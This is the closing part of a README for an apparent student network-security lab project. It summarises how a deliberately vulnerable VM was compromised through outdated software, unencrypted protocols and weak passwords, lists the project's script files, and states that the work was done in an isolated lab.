The target was fully compromised by chaining outdated software, unencrypted protocols, and weak passwords. The assessment progressed from discovery to a complete compromise and recovered a real user password from its hash. Addressing authentication, encryption, patching, and access control together would break this attack chain and significantly strengthen the system's security posture.

---

## Repository Structure

```
Network-Security-Project/
├── README.md
├── images/                 
└── code/
    ├── 01-environment-and-discovery.sh
    ├── 02-system-discovery.sh
    ├── 03-traffic-capture.sh
    └── 04-exploitation-and-cracking.sh
```

> **Note:** This project was conducted in an isolated lab against a deliberately vulnerable VM for educational purposes. The commands and techniques here are for authorised testing only.
